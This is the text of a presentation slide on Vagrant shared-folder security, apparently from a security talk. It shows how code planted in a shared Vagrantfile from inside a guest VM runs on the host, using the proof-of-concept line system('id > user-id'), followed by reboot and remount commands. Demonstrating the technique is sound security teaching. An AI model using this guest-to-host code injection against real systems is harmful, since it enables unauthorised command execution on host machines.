

THE SECURITY : SHARED FOLDERS

Exploiting A Shared Local Folder (Low Privilege Shell on Host)

Planting Malicious Code Into Vagrantfile

# Getting Low Privilege Shell on Host  system(”id > user-id”)

Reloading Vagrantfile

$ reboot

Remount Vagrant Share

$ mount -t vboxsf vagrant /vagrant
55